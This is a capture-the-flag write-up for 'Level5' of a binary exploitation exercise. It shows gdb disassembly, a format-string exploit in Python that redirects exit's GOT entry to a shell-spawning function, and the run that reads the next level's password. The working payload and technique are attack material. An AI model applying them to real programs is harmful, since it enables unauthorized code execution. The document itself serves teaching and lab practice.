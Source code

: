 # Level5

    (gdb) disas main 
    Dump of assembler code for function main:
        0x08048504 <+0>:	push   %ebp
        0x08048505 <+1>:	mov    %esp,%ebp
        0x08048507 <+3>:	and    $0xfffffff0,%esp
        0x0804850a <+6>:	call   0x80484c2 <n>
        0x0804850f <+11>:	leave  
        0x08048510 <+12>:	ret    
    End of assembler dump.
    (gdb) disas n
    Dump of assembler code for function n:
        0x080484c2 <+0>:	push   %ebp
        0x080484c3 <+1>:	mov    %esp,%ebp
        0x080484c5 <+3>:	sub    $0x218,%esp
        0x080484cb <+9>:	mov    0x8049848,%eax
        0x080484d0 <+14>:	mov    %eax,0x8(%esp)
        0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
        0x080484dc <+26>:	lea    -0x208(%ebp),%eax
        0x080484e2 <+32>:	mov    %eax,(%esp)
        0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
        0x080484ea <+40>:	lea    -0x208(%ebp),%eax
        0x080484f0 <+46>:	mov    %eax,(%esp)
        0x080484f3 <+49>:	call   0x8048380 <printf@plt>
        0x080484f8 <+54>:	movl   $0x1,(%esp)
        0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.

Another printf exploit. This time not much happening besides the printf call. However we can find a function o() which is never called

    (gdb) disas o
    Dump of assembler code for function o:
        0x080484a4 <+0>:	push   %ebp
        0x080484a5 <+1>:	mov    %esp,%ebp
        0x080484a7 <+3>:	sub    $0x18,%esp
        0x080484aa <+6>:	movl   $0x80485f0,(%esp)
        0x080484b1 <+13>:	call   0x80483b0 <system@plt>
        0x080484b6 <+18>:	movl   $0x1,(%esp)
        0x080484bd <+25>:	call   0x8048390 <_exit@plt>
    End of assembler dump.

This function will very conveniently run a shell when called.
Another interesting thing is the use of the exit() function.

The goal will be very similar to the previous 2 levels, however this time instead of setting the value to a number to pass the equality check, we will pass the address of the o function and try to execute it. Since this address is equal to 134 513 828 in base 10, it would take quite a while to print all these characters (and also a few hundreds Mb).

The way we're gonna do it is by exploiting the exit() function. Since it's a funtion from the libc, it won't be directly included in the binary, but will use the global offset table (GOT) that will link the address stored in the program to the real exit() function. But we can exploit this GOT and redirect it to the o() function instead. In simpler terms, instead of executing exit, we will execute o().

First of all we want to find the first occurence of our input in the stack, like we previously did :

    $ ./level5 
    AAAA %x %x %x %x %x %x
    AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825

It corresponds to the 4th %x.

Since there will be quite a lot of stuff needed to craft our payload, let's write a python script.

We start by saving the address of o() for later use (1)
Then we need to find the GOT. In the n() function, we see the call to exit at the procedure linkage table (PLT) :

        0x080484ff <+61>:	call   0x80483d0 <exit@plt>

By dissassembling it, we can now see the address referenced in the first instruction with the jump, that tries to reference the address of exit from glibc:

    (gdb) disas 0x80483d0
    Dump of assembler code for function exit@plt:
        0x080483d0 <+0>:	jmp    *0x8049838
        0x080483d6 <+6>:	push   $0x28
        0x080483db <+11>:	jmp    0x8048370
    End of assembler dump.

Let's examine this address :

    (gdb) x 0x8049838
    0x8049838 <exit@got.plt>:	0x080483d6

Here we see the got address. We store it in our script as well for later use (2)

Next, we need to get the size of the buffer. We can send some tests like we did in the previous levels. We can also find it here : 

        0x080484dc <+26>:	lea    -0x208(%ebp),%eax

Basically this is an instruction to load the effective address -0x208(%ebp) to EAX. Since this effective address refers to the start of the buffer, 0x208 is the offset of the buffer from the EPB register. Which is 520 in decimal.
Now we can add padding to our script (3)

Time to craft the payload. We start by packing the EXIT_PLT address into a binary string using the struct library (4)
(I is the format string specifying that the value to be packed is an unsigned int)

Now, instead of padding with over 100 millions characters, we can split the address in 2: 0x80484a4 will be composed of 0x804 and 0x84a4. Which are significantly shorter. We can start padding with 0x84a4 characters to get the lowest half of the address, then use a little trick to get the biggest one.

For the first half, we can do like we did previously, and tweak around to get the precise address (5)

We partially win once we see this :

    (gdb) i r
    eax            0x84a4	33956 <-- lowest half of the exit_plt address
    [...]

Now the hard stuff. We need to add the other half, which will be 0x0804. We now want to address the 5th element on the stack (6). If we first try with a very low number, we see that the number is already wayyy above 0x0804. But how can we get 0x0804 if we can only *add* numbers ? Since we always write 4 bytes (0x0804 is 2 bytes or 16 -bit), it means we actually wrote this number : 0x00000804, messing up with data stored previously in the GOT table, but who cares. And nothing prevents us to use this number instead : 0x00010804. The GOT will only see the last 2 bytes anyway, 0x0804. Now, we simply need to substract the value we got when using a very low number from 0x00010804 (without forgetting that we already sent the very low number to find the first value, so we take it into account) (7). Again it might need some tweaks, we had to change the values of the lowest half once again after this operation because it modified it.
We also set the offset of 2 bytes of the exit_plt address (8)

Using gdb, once eax is equal to the address we wanted, we don't touch it anymore because it was painful enough :

    (gdb) i r
    eax            0x80484a4	134513828 <-- lowest half of the o function address
    [...]

Here is the final python script:

    import struct

    FCT_O = 0x80484a4       #(1)
    EXIT_PLT = 0x8049838    #(2)

    def pad(s):
        return s+"Y"*(520-len(s))   #(3)

    exploit = ""
    exploit += struct.pack("I",EXIT_PLT)    #(4)
    exploit += struct.pack("I",EXIT_PLT+2)  #(8)
    exploit += "AAAABBBBCCCC"               # only used to find the occurence of the input string on the stack, but removing it will require to tweak the paddings length once more so I kept it
    exploit += "%4$33936x"                  #(5)
    exploit += "%4$n"                       #(5)
    exploit += "%33632x"                    #(7)
    exploit += "%5$n"                       #(6)

    print pad(exploit)

[source](https://www.youtube.com/watch?v=t1LH9D5cuK4)

Now that our brain has melted, we just need to run the program.

    $ python exploit.py > payload
    $ cat payload - | ./level5 
    [... not 17 millions characters this time but still quite a lot ...]
    cd ../level6
    cat .pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
